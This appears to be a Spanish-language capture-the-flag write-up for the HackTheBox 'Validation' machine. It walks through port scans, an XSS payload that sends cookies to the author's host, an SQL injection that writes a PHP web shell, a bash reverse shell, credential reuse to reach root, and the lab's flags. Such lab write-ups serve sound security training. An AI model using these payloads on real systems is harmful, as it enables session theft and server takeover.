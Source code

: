 ```yaml
---
title: 'CTF - Validation WriteUp'
date: '2022-02-08'
tags: ["CTF", "Hacking", "SQLInjection", "XSS", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: '![](/static/images/uploads/ctf-validation/validation.webp)'
---
```


![](/static/images/uploads/ctf-validation/validation.webp)

Esta máquina es del creador de contenido de Ciberseguridad [IppSec](https://www.youtube.com/c/ippsec/videos). Podemos encontrar varias máquinas suyas en HTB y suelen ser todas bastante entretenidas.

En este caso empezamos con el escaneo de puertos.


```
nmap -p- -sS --open -T5 -vvv -n -Pn -oG allPorts 10.10.11.116
```
NMAP all ports discoveryEn mi caso, el parámetro --min-rate 5000 no me funciona bien. Seguramente tenga algo que ver la máquina virtual que utilizo, por lo que utilizo -T5 que es el modo loco de NMAP para ir tan rápido como pueda.

Descubrimos varios puertos abiertos.


```
❯ nmap -p22,80,4566,8080 -sCV -n -Pn 10.10.11.116 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
El puerto 8080 devuelve un http status code 502 y el 4566 un 403 forbidden, por lo que nos centramos en el puerto 80.

En la página principal aparece un formulario donde podemos introducir un nombre y elegir un país.

![](/static/images/uploads/ctf-validation/form.webp)

Parece que al rellenarlo, nos lleva a otra página con la información registrada. Probamos una inyección XSS en el campo *Username* y avanzamos.


```
alert("XSS attack");
```
Pulsamos al botón de Join Now y encontramos lo siguiente.

![](/static/images/uploads/ctf-validation/xss.webp)

Una vez que validamos que es vulnerable a ataques XSS, busco el siguiente código en el cheatsheet de [R0B1NL1N](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).


```
var i=new Image;i.src="http://10.10.14.14:8080/?"+document.cookie;
```
Y tras poner en escucha en nuestro equipo un servidor en el puerto 8080, recibo la siguiente petición. Lo que se ve a continuación soy yo entrando a la página y enviándome mi cookie de sesión *user=020fba18d39d4e3bbda3fa8396dd4563*. De esta forma verifico que todo funciona correctamente.


```
❯ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.14.14 - - [08/Feb/2022 18:39:45] "GET /?user=020fba18d39d4e3bbda3fa8396dd4563 HTTP/1.1" 200 -
```
Llegados a este punto cualquier usuario que entre a esa página, nos estará enviando su cookie de sesión. Continúo buscando cosas mientras dejo el servidor corriendo aunque ya os adelanto que por ese camino, no voy a conseguir nada más.

Retomando los pasos previos, intento ver si el formulario es vulnerable a injecciones SQL y veo que el input del país es vulnerable.

Monto Burpsuite, activo el proxy en mi navegador y modifico los parámetros de la petición /POST de la siguiente manera.


```
username=anyuser&country='union select "php system($_REQUEST['cmd']); ?" INTO OUTFILE "/var/www/html/shell.php"-- -
```
Me pongo en escucha con Netcat en mi máquina en el puerto 443 y realizo una petición a la siguiente URL.


```
http://10.10.11.116/shell.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.14%2F443%200%3E%261%0A
```
La URL está codificada. El contenido de cmd es bash -i & /dev/tcp/10.10.14.14/443 0&1.

Recibo la shell y lo primero que hago es ver la siguiente configuración en el directorio actual.


```
www-data@validation:/var/www/html$ cat config.php
php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?
```
Veo las credenciales de MySQL. Podría tratar de enumerar el contenido de la base de datos, pero pruebo por casualidad si soy capaz de ponerme como sudo con la misma contraseña.


```
www-data@validation: su -
uhc-9qual-global-pw
root@validation:~#
```
Llegados a este punto, tenemos acceso a todo el contenido. Enumero las flags y listo.


```
root@validation:~# cat /home/htb/user.txt
e4be632da67c582f555571fdfa8135d6
root@validation:~# cat root.txt
459129eac316e8f9a522758f2a362493
```
